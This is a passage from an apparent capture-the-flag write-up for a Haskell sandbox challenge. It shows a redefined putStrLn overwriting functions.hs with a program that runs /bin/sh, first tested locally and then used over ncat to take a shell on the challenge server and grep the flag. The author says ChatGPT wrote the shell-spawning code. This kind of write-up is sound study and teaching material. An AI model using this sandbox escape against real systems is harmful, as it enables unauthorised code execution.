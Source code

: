 What do we put there? With some help from ChatGPT (*write haskell program executing /bin/sh...*), I got:

```haskell
--allowed functions: main,


module Functions where

import Prelude hiding (head, tail)
import System.Process

main :: IO ()
main = do
  exitCode <- system "/bin/sh"
  putStrLn $ show exitCode
```

Note that it is important to keep the first six lines identical to the original program, incl. empty lines:

*   Whitelist of custom functions (except that we only keep ours there)
*   Module name (used when initializing the interpreter)
*   Prelude import (parsed for overshadowed functions - must be in line #6!)

With that, we can try a local exploit:

```haskell
> putStrLn f = writeFile "functions.hs" "--allowed functions: main,\n\n\nmodule Functions where\n\nimport Prelude hiding (head, tail)\nimport System.Process\n\nmain :: IO ()\nmain = do\n  exitCode <- system \"/bin/sh\"\n  putStrLn $ show exitCode\n"
> ioIfy "a"
> main
sh-5.2$ 
```

# Getting the flag

```haskell
$ ncat --ssl 8f98f0ce-e87f-4e81-82e7-7f471e67b4cb.library.m0unt41n.ch 1337
> putStrLn f = writeFile "functions.hs" "--allowed functions: main,\n\n\nmodule Functions where\n\nimport Prelude hiding (head, tail)\nimport System.Process\n\nmain :: IO ()\nmain = do\n  exitCode <- system \"/bin/sh\"\n  putStrLn $ show exitCode\n"
putStrLn f = writeFile "functions.hs" "--allowed functions: main,\n\n\nmodule Functions where\n\nimport Prelude hiding (head, tail)\nimport System.Process\n\nmain :: IO ()\nmain = do\n  exitCode <- system \"/bin/sh\"\n  putStrLn $ show exitCode\n"
> ioIfy "a"
ioIfy "a"
Result: ()
> main
main
ls
ls
Dockerfile  functions.hs  hashell.hs  recover_original.hs
challenge   hashell.hi	  hashell.o
cat recover_original.hs
grep password recover_original.hs
grep password recover_original.hs
 | password == "shc2023{https://www.youtube.com/watch?v=Ci48kqp11F8}" =  "Must have been the wind" 
 | password == "shc2023{https://www.youtube.com/watch?v=Ci48kqp11F8}" = "The great weapon the Metal Gear can be accessed over the Hyper Text Transfer Protocol."
```

---